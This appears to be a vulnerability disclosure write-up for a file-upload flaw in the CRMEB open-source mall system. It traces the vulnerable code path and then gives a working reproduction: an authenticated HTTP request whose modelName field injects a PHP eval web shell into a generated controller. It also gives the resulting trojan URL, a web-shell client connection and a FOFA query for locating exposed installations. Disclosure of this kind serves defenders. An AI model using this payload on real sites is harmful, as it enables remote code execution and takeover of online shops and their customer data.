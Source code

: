 CRMEB file upload vulnerability

1. Project introduction

Project address: https://gitee.com/ZhongBangKeJi/CRMEB

Number of project stars: 11.7K

Project introduction: 🔥CRMEB open source mall free and open source multilingual mall system, Tp6 framework mall, the system can be commercialized; Including Mini Program Mall, H5 Mall, Official Account Mall, PC Mall, App, support distribution, grouping, bargaining, seckill, coupons, points, membership levels, Mini Program live broadcast, page DIY, front-end and back-end separation, convenient for two opening, use documents, interface documents, data dictionaries, two open documents/video tutorials, welcome your valuable comments and suggestions.

![image](https://github.com/1dreamGN/CVE/assets/112082417/fdae9fbb-8bec-4fa4-94ac-bafc85476dd6)

fofa syntax: icon_hash="-847565074"

![image](https://github.com/1dreamGN/CVE/assets/112082417/0d79501c-ce76-4cbf-b802-33f582543b15)

2. Audit and reproduction process

File where the vulnerability is located: app/adminapi/controller/v1/setting/SystemCrud.php

![image](https://github.com/1dreamGN/CVE/assets/112082417/90cba4a1-c6a8-4c7c-9323-f9ad2275ef7e)

crud function continues to track the createCrud function

File path: app/services/system/SystemCrudServices.php

![image](https://github.com/1dreamGN/CVE/assets/112082417/222ee4af-42e3-4163-9da4-4603b0f48730)

![image](https://github.com/1dreamGN/CVE/assets/112082417/bee3942c-44fe-417c-9f59-3f73705ea35a)

Follow the makeFile function

![image](https://github.com/1dreamGN/CVE/assets/112082417/bcc6ff21-6890-49b7-b2f5-a3d6107ef4ed)

![image](https://github.com/1dreamGN/CVE/assets/112082417/f2222f2d-0a4f-4ba9-a33b-d71d1765bf65)

Critical error points

![image](https://github.com/1dreamGN/CVE/assets/112082417/73ccde92-cd68-4b40-bc7a-09fcc929acd6)

Follow FileService::batchMakeFiles

![image](https://github.com/1dreamGN/CVE/assets/112082417/57ae854b-97e8-4272-9bb4-e6d40e09aaab)

Create a controller without filtering

Reproduce below

Log in to the background to obtain jwt-token

![image](https://github.com/1dreamGN/CVE/assets/112082417/2d82fe16-e236-4498-b492-79e8e2b8a776)

Construct a payload and request it

```
POST /adminapi/system/crud HTTP/1.1
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/json
Host: 222.186.134.155:99
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJiYzUzYmJkZWEzNjk1ODRiNDg1NTkwZGEzZmY3ZWQzOCIsImlzcyI6IjIyMi4xODYuMTM0LjE1NTo5OSIsImF1ZCI6IjIyMi4xODYuMTM0LjE1NTo5OSIsImlhdCI6MTY5NTQ5NTI4NywibmJmIjoxNjk1NDk1Mjg3LCJleHAiOjE2OTgwODcyODcsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.r8iA7llTlmqiNCm9_3MBUE6HVEjV13USJHi08FYPGfI

{ "pid": 25, "tableName": "test", "modelName": "*/?><?php namespace app\\adminapi\\controller\\crud; exit(eval($_GET[1]));//**", "isTable": 1, "menuName": "", "filePath": { "controller": "app/adminapi/controller/crud/Test.php", "route": "app/adminapi/route/crud/test.php" }, "tableField": [ { "field": "id", "field_type": "int", "default": "", "comment": "自增ID", "required": false, "is_table": true, "table_name": "ID", "limit": "15", "primaryKey": 1, "from_type": "" }, { "field": "", "field_type": "varchar", "default": "", "default_type": "-1", "comment": "test", "required": false, "is_table": true, "table_name": "test", "limit": 255, "primaryKey": 0, "from_type": "input", "search": "", "dictionary_id": 0, "hasOne": [], "index": false } ], "deleteField": []}

```

An error is returned. An error is reported in the database. But the file has already been generated



![image](https://github.com/1dreamGN/CVE/assets/112082417/9acda77e-9a2f-49d4-909c-15671b88f7e1)


Trojan address:

http://222.186.134.155:99/adminapi/crud/test?

param：1=phpinfo();

Test antsword links

![image](https://github.com/1dreamGN/CVE/assets/112082417/68da463b-e881-44c6-91e4-4e6ba0d4b980)

Setting the jwt-token file can also be generated to a directory that does not require permission


![image](https://github.com/1dreamGN/CVE/assets/112082417/8b229072-166f-4f2e-9eac-45f397b8f64d)

	






